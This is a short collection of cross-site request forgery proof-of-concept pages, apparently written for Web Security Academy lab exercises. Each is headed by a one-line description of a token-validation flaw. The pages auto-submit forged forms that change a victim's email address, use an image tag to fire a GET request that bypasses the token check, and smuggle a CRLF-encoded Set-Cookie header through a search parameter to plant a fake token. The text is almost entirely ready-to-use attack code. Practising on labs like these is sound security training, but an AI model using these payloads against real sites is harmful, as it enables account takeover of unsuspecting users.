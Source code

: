 CSRF TOKEN NOT TIED TO SINGLE SESSION COOKIE
```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="victim@gothacked">
            <input required type="hidden" name="csrf" value="CSRF">
            <button type="submit">Update Email</button>
        </form>
        <script>document.forms[0].submit()</script>
    </body>
</html>
```

CSRF TOKEN IS VALIDATED ONLY IF PRESENT, IF OMITTED THERE IS NO CONTROL
```html
<html>
    <body>
        <form action="https://0ab000a5048fb98c8049676b00d00054.web-security-academy.net/my-account/change-email" method="POST">
        <input required type="email" name="email" value="victim@yougothacked">
        <button type="submit">Update email</button>
    <script>document.forms[0].submit()</script>
    </body>
</html>
```

CSRF TOKEN CONTROL IS IMPLEMENTED ONLY ON POST REQUEST, SWITCHING TO GET METHOD AND STRIPPING THE CSRF PARAMETER FROM THE URL DOES BYPASS THE CONTROL
```html
<html>
    <body>
        <img src="https://0a68008a048967758029fd920081006d.web-security-academy.net/my-account/change-email?email=victim%40gothacked" onerror=alert(1)>
    </body>
</html>
```

CSRF TOKEN CONTROL DUPLICATED IN A COOKIE AND SOME USER INPUT IS REFLECTED IN THE SET-COOKIE HEADER
```html
<html>
    <body>
        <img src="URL/?search=test%0D%0ASet-Cookie%3A%20csrf%3Dfakecsrf%3B%20SameSite%3DNone" onerror=document.forms[0].submit()>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="victim@yougothacked">
            <input required type="hidden" name="csrf" value="fakecsrf">
            <button type="submit">Update Email</button>
        </form>
    </body>
</html>
```

